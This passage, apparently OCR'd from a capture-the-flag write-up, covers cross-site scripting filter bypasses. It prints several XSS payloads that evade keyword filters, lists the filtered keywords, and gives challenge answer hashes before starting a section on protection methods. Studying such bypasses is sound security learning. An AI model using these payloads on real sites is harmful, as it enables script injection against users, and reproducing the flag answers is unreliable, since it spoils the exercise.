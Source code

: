 ```

4)

Since this challenge only filters ‘onerror’, we can replace it with ‘ONERROR’ instead.

<img src=witty ONERROR=alert("HHelloello")>

or

<object ONERROR=alert('HHelloello')>

or

<style>@keyframes slidein {}</style><xss style="animation-duration:1s;animation-name:slidein;animation-iteration-count:2" onanimationiteration="alert('Hello')"></xss>

Answer: 2482d2e8939fc85a9363617782270555

and much more solutions :)
```

Bypass the filter that removes any script tags.

*3c3cf8d90aaece81710ab9db759352c0*

The word alert is filtered, bypass it.

*a2e5ef66f5ff584a01d734ef5edaae91*

The word hello is filtered, bypass it.

*decba45d0eff17c6eedf1629393bee1d*

Filtered in challenge 4 is as follows:

    word "Hello"
    script
    onerror
    onsubmit
    onload
    onmouseover
    onfocus
    onmouseout
    onkeypress
    onchange

*2482d2e8939fc85a9363617782270555*


### Protection Methods & Other Exploits 

Protection Methods

There are many ways to prevent XSS, here are the 3 ways to keep cross-site scripting our of your application.
